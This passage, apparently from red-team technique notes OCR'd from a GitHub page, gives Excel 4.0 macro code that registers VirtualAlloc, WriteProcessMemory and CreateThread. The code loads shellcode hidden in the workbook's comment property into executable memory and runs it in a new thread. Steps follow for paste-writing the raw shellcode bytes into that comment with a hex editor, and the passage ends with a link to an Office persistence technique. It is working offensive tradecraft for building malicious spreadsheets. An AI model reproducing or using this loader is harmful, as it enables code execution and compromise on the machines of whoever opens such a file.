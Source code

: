 						```
						=REGISTER("Kernel32","VirtualAlloc","JJJJJ","Alloc",,1,9)
						=REGISTER("Kernel32","WriteProcessMemory","JJJCJJJ","WPM",,1,9)
						=REGISTER("Kernel32","CreateThread","JJJJJJJ","CThread",,1,9)
						=Alloc(0,4096,4096,64)
						=SET.VALUE(RC[1],WPM(-1,R[-1]C,LEFT(GET.WORKBOOK(37),255),255,0))
						=SET.VALUE(RC[1],WPM(-1,R[-2]C+255,MID(GET.WORKBOOK(37),256,255),255,0))
						=SET.VALUE(RC[1],WPM(-1,R[-3]C+(255*2),MID(GET.WORKBOOK(37),511,255),255,0))
						=SET.VALUE(RC[1],WPM(-1,R[-4]C+(255*3),MID(GET.WORKBOOK(37),766,255),255,0))
						=SET.VALUE(R[-8]C[1],DEC2HEX(R[-5]C))
						=SET.VALUE(R[-8]C[1],R[-6]C)
						=CThread(0,0,R[-9]C[1],0,0,0)
						=HALT()
						```
			1. Fill workbook comment with text so you can recognize it in the hex editor
				* File --> Info --> "Show All Properties" --> Comments
				* Length == 1024 (in this example) (e.g. `AAAAAAAAAAAAAAAAAAAA....`)
				* save the file
			1. In hex editor (such as HxD), open file and "paste write" starting at the beginning of the comment


([`Office - Office Test` TTP](TTP/T1137_Office_Application_Startup/002_Office_Test/T1137.002.md))